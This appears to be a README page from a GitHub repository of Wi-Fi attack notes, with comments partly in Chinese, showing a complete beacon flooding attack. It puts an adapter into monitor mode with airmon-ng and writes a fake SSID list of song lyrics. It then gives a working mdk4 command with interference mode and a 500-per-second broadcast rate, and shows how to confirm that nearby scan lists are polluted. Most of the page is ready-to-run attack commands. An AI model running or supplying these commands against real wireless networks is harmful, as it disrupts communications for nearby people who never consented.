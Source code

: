 Beacon Flooding Attack
===
🔙 [MENU README](../README.md)


Monitor Mode  
```bash
# change to monitor mode
sudo airmon-ng start wlan1

# check change to monitor mode
iwconfig
# wlan1mon Mode:Monitor
```
fake-ssid-list
```
# fake-ssid-list.txt

We're no strangers to love
You know the rules and so do I (do I)
A full commitment's what I'm thinking of
You wouldn't get this from any other guy
I just wanna tell you how I'm feeling
Gotta make you understand
Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you
```
mdk4
```bash
sudo mdk4 wlan1mon b -f fake-ssid-list.txt -w nta -m -s 500

# b  : Beacon Attack
# -f : 發送的虛假 SSID 列表的文件
# -w : 啟用 Wi-Fi 無線設備的干擾模式，以干擾目標無線網絡的通信
# -m : 啟用無線設備的無線廣播模式，以向周圍的設備發送虛假或混亂的無線信號
# -s : 指定廣播消息的頻率，這裡是每秒 500 
```
Check
```bash
sudo iw wlan2 scan
# wifi list 已經被汙染
```
View
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --manufacturer --wps --band bg

# --manufacturer: 啟用顯示客戶端的製造商信息
# --wps: 啟用顯示支持 WPS (Wi-Fi Protected Setup) 的無線網絡信息
# --band bg: 指定要掃描的無線網絡頻段，這裡是 2.4 GHz 頻段 (bg)
```
![](../_src/BeaconFloodingAttack_View.png)